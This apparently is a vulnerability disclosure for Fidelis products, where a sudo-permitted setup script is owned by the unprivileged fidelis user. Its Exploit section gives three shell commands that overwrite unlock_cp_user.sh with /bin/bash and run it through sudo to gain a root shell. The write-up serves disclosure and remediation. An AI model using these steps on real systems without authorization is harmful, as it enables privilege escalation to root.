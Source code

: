 #### Summary:
Misconfigured ownership permissions on /FSS/setup/unlock_cp_user.sh allow the fidelis user to escalate privileges equivalent to the root user in multiple Fidelis products. By default, the sudoers configuration allows the fidelis user to execute /FSS/setup/unlock_cp_user.sh as the root user if a password is supplied. The file is owned by the fidelis user, allowing the fidelis user to arbitrarily modify the script and escalate privileges.

#### Exploit:
1. Change permissions to allow modification of the unlock_cp_user.sh file:
```bash
$ chmod u+w /FSS/setup/unlock_cp_user.sh
```
2. Change the file as needed to execute arbitrary code or, in this example, spawn a shell:
```bash
$ cp /bin/bash /FSS/setup/unlock_cp_user.sh
```
3. Launch the file using the sudo command and authenticate with the fidelis user password:
```bash
$ sudo /FSS/setup/unlock_cp_user.sh
```

Screenshot showcasing vulnerability discovery and exploitation:

![](images/unlock_cp_user.sh.png)
